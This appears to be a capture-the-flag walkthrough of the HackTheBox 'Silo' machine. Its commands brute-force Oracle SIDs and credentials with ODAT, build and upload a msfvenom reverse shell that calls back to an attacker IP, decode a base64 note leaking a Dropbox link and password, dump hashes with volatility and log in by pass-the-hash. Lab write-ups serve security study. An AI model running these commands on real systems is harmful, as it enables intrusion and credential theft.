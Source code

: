 ## Silo

Difficulty: Medium

### User and Root Flag

```
rustscan -a 10.10.10.82 --ulimit 5000 -- -A -sV -sC -oN nmap.txt -Pn
```

![nmap](https://github.com/b1d0ws/OSCP/assets/58514930/31be8266-2d50-4e92-b848-8261f0339e7a)

<br>

Searching for Oracle TNS listener pentest, we find this tool called odat.

We first need to find SIDs and brute force users.

```
# Find sids
python3 odat.py sidguesser -s silo.htb -p 1521 --sids-file=resources/sids.txt

Brute force credentials.
python3 odat.py passwordguesser -s silo.htb -d XE
```

![findSid](https://github.com/b1d0ws/OSCP/assets/58514930/b2523bbf-3005-4926-b343-e451facf2c8e)

![bruteForceUser](https://github.com/b1d0ws/OSCP/assets/58514930/7bf3fb73-88f8-4114-83fd-662de7c538e2)

<br>

Finding valid credentials, we can upload a reverse shell executable.

```
# Creating payload
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.21 LPORT=1337 -f exe > revshell.exe

# Uploading file
python3 odat.py utlfile -s silo.htb --sysdba -d XE -U scott -P tiger --putFile /temp shell.exe ../revshell.exe

# Getting reverse shell
python3 odat.py externaltable -s silo.htb --sysdba -d XE -U scott -P tiger --exec /temp shell.exe
```

![generatePayload](https://github.com/b1d0ws/OSCP/assets/58514930/b07b4e54-6815-46d6-b36b-53f8a6682532)

![reverseShell](https://github.com/b1d0ws/OSCP/assets/58514930/1ea5131d-8545-4120-a6f7-ff08f7165970)

#### Extra

```
# There is this file "Oracle issue.txt" on desktop, but the password is not being displayed correctly.

# Convert to base64 on Windows
$fc = Get-Content "Oracle issue.txt"
$fe = [System.Text.Encoding]::UTF8.GetBytes($fc)
[System.Convert]::ToBase64String($fe)

# Read it on Linx
echo -n "U3VwcG9ydCB2ZW5kb3IgZW5nYWdlZCB0byB0cm91Ymxlc2hvb3QgV2luZG93cyAvIE9yYWNsZSBwZXJmb3JtYW5jZSBpc3N1ZSAoZnVsbCBtZW1vcnkgZHVtcCByZXF1ZXN0ZWQpOiAgRHJvcGJveCBsaW5rIHByb3ZpZGVkIHRvIHZlbmRvciAoYW5kIHBhc3N3b3JkIHVuZGVyIHNlcGFyYXRlIGNvdmVyKS4gIERyb3Bib3ggbGluayAgaHR0cHM6Ly93d3cuZHJvcGJveC5jb20vc2gvNjlza3J5emZzemI3ZWxxL0FBRFpuUUViYnFEb0lmNUwyZDBQQnhFTmE/ZGw9MCAgbGluayBwYXNzd29yZDogwqMlSG04NjQ2dUMk" | base64 -d

# With this we get access to a dump file. We can extract hashes using volatility.
volatility -f SILO-20180105-221806.dmp --profile Win2012R2x64 hashdump

# Login with pass the hash
pth-winexe -U Administrator%aad3b435b51404eeaad3b435b51404ee:9e730375b7cbcebf74ae46481e07b0c7 //10.10.10.82 cmd
```
